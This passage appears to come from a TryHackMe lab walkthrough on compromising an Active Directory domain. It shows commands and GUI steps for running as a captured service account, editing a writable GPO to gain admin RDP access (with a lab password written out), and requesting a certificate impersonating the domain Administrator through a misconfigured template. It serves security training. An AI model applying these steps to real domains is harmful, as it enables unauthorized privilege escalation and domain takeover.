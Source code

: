 Now we can use `runas` command to inject our AD creds
```bash
runas /netonly /user:za.tryhackme.loc\svcServMan cmd.exe
```

- To edit GPOs we can use
```bash
mmc
```

- We now want to add the Group Policy Management snap-in:
```
Click File -> Add/Remove Snap-in
Select the Group Policy Management snap-in and click Add
Click Ok
```

- We can now navigate to the GPO that our user has permission to modify (Servers > Management Servers> Management Server Pushes)
- Right click on it and edit
1. Expand **Computer Configuration**
2. Expand **Policies**
3. Expand **Windows Settings**
4. Expand **Security Settings**
5. Right Click on **Restricted Groups** and select **Add Group**
6. Click **Browse,** enter **IT Support** and click **Check Names**
7. Click **Okay** twice

- Now we have access to THMSERVER2 as RDP and Admin
```bash
xfreerdp /v:THMSERVER2.za.tryhackme.loc /u:justin.barnes /p:O8SMjhmo +clipboard /dynamic-resolution
```
---------------------------------------------------------------------------------
- We can find vulnerable certificates using this on THMSERVER2 in RDP session that we have
```bash
certutil -Template -v > templates.txt
```

- Found Template[32] has `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` set which means we can set our own Subject Alternate Name (SAN)
- Opened `mmc`
- Added the `Certificates` snap-in
- We will request a personal certificate:
```
Right Click on Personal and select All Tasks->Request New Certificate...
Click Next twice to select the AD enrollment policy.
You will see that we have one template that we can request, but first, we need to provide additional information.
Click on the More Information warning.
Change the Subject name Type option to Common Name and provide any value, since it does not matter, and click Add.
Change the Alternative name Type option to User principal name.
Supply the UPN of the user you want to impersonate. The best would be a DA account such as Administrator@za.tryhackme.loc and click Add.
```
